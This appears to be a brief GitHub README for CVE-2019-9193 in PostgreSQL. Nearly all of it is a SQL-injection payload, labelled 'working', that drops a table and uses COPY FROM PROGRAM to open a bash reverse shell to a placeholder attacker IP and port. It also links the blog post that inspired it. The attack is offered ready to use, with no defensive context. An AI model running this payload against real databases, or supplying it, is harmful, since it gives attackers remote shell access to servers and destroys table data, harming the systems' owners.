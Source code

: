# CVE-2019-9193


working payload for SQLi:

```
DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text);COPY cmd_exec FROM PROGRAM 'bash+-c+"bash+-i+>%26+/dev/tcp/${ATTACKER_IP}/${ATTACKER_PORT}+0>%261"'; SELECT cast(cmd_output as int) from cmd_exec
```

Inspiration from this blog post:
https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/authenticated-arbitrary-command-execution-on-postgresql-9-3/
